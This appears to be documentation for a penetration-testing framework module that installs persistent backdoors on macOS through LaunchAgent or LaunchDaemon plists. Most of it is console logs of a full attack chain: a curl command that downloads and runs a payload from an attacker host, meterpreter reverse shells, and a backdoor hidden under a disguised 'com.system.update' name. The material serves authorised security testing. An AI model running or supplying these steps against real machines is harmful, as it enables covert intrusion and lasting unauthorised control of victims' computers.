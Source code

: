 ## Vulnerable Application

This module provides a persistent boot payload by creating a launch item, which can be
a LaunchAgent or a LaunchDaemon. LaunchAgents run with user level permissions and are triggered
upon login by a plist entry in `~/Library/LaunchAgents`. LaunchDaemons run with
elevated privilleges, and are launched before user login by a plist entry in the `~/Library/LaunchDaemons` directory.
In either case the plist entry specifies an executable that will be run before or at login.

Verified on OSX 11.7.10 (Big Sur), 13.7.4 (Ventura)

## Verification Steps

1. Start msfconsole
1. Get a shell
1. Do: `use exploit/osx/persistence/launch_plist`
1. Do: `run`
1. You should get a shell.

## Options

### BACKDOOR_PATH

Path to hide the backdoor on the target. Defaults to `~/Library/.<random>/com.system.update`

### KEEPALIVE

Continually restart the payload exe if it crashes/exits. Defaults to `true`

### RUN_NOW

Run the installed payload immediately. Defaults to `false`

### LAUNCH_ITEM

Type of launch item, see description for more info. Choices are `LaunchAgent`, `LaunchDaemon`. Default is `LaunchAgent`

## Scenarios

### 13.7.4

Initial access via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set target 8
target => 8
resource (/root/.msf4/msfconsole.rc)> set srvport 8383
srvport => 8383
resource (/root/.msf4/msfconsole.rc)> set payload payload/osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4747
lport => 4747
resource (/root/.msf4/msfconsole.rc)> set URIPATH m
URIPATH => m
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 111.111.1.111:4747 
[*] Using URL: http://111.111.1.111:8383/m
[*] Server started.
[*] Run the following command on the target machine:
curl -sk --output 8D4tNTA4 http://111.111.1.111:8383/m; chmod +x 8D4tNTA4; ./8D4tNTA4& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.22.2.2       web_delivery - Delivering Payload (815032 bytes)
[*] Meterpreter session 1 opened (111.111.1.111:4747 -> 222.22.2.2:49156) at 2025-02-19 19:04:25 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/osx/persistence/launch_plist 
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/Users/macos) > getuid
Server username: macos
(Meterpreter 1)(/Users/macos) > sysinfo
Computer     : 20.20.20.21
OS           : macOS Ventura (macOS 13.7.4)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > set payload payload/osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
[msf](Jobs:1 Agents:1) exploit(osx/persistence/launch_plist) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /Users/macos/Library is writable
[*] Dropping backdoor executable...
[+] Backdoor stored to /Users/macos/Library/.QVecGcAF/com.system.update
[+] LaunchAgent added: /Users/macos/Library/LaunchAgents/com.system.update.plist
[+] LaunchAgent installed successfully.
[*] To remove the persistence, run:
rm -rf /Users/macos/Library/.QVecGcAF ; rm /Users/macos/Library/LaunchAgents/com.system.update.plist ; launchctl remove com.system.update ; launchctl stop com.system.update

[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/20.20.20.21_20250219.0704/20.20.20.21_20250219.0704.rc
[msf](Jobs:2 Agents:1) exploit(osx/persistence/launch_plist) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/Users/macos) > shell
Process 2138 created.
Channel 8 created.
launchctl load -w /Users/macos/Library/LaunchAgents/com.system.update.plist
[*] Meterpreter session 5 opened (111.111.1.111:4444 -> 222.22.2.2:49157) at 2025-02-19 19:11:23 -0500
```